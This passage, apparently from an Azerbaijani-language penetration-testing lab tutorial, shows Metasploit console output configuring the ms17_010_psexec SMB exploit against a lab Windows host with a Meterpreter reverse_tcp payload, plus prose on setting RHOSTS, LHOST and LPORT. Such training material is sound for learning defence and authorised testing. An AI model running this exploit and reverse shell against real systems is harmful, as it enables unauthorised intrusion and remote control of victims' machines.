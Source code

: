 ```
   SERVICE_DESCRIPTION                                no        Service description to to be used on target for
                                                                 pretty listing
   SERVICE_DISPLAY_NAME                               no        The service display name
   SERVICE_NAME                                       no        The service name
   SHARE                 ADMIN$                       yes       The share to connect to, can be an admin share
                                                                (ADMIN$,C$,...) or a normal read/write folder s
                                                                hare
   SMBDomain             .                            no        The Windows domain to use for authentication
   SMBPass                                            no        The password for the specified username
   SMBUser                                            no        The username to authenticate as


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.86.48    yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port
```

Eksploiti işlətməzdən əvvəl payload seçimlərinizi düzgün təyin etdiyinizə əmin olun. `Required`-u `yes` olaraq təyin olunan hər hansı bir seçim doldurulması zəruri bir yer olacaq. Bu halda, `RHOSTS`, `LHOST` və `LPORT` sahələrimizin düzgün təyin olunduğuna əmin olmalıyıq. Bu cəhd üçün, qalanları üçün standartları qəbul etmək OK-dur.

**Seçimlərimizi Doğrulayın**
```
msf6 exploit(windows/smb/ms17_010_psexec) > show options

Module options (exploit/windows/smb/ms17_010_psexec):

   Name                  Current Setting              Required  Description
   ----                  ---------------              --------  -----------
   DBGTRACE              false                        yes       Show extra debug trace info
   LEAKATTEMPTS          99                           yes       How many times to try to leak transaction
   NAMEDPIPE                                          no        A named pipe that can be connected to (leave bl
                                                                ank for auto)
   NAMED_PIPES           /usr/share/metasploit-frame  yes       List of named pipes to check
                         work/data/wordlists/named_p
                         ipes.txt
   RHOSTS                10.129.201.97                yes       The target host(s), range CIDR identifier, or h
                                                                osts file with syntax 'file:<path>'
   RPORT                 445                          yes       The Target port (TCP)
   SERVICE_DESCRIPTION                                no        Service description to to be used on target for
                                                                 pretty listing
   SERVICE_DISPLAY_NAME                               no        The service display name
   SERVICE_NAME                                       no        The service name
   SHARE                 ADMIN$                       yes       The share to connect to, can be an admin share
                                                                (ADMIN$,C$,...) or a normal read/write folder s
                                                                hare
   SMBDomain             .                            no        The Windows domain to use for authentication
```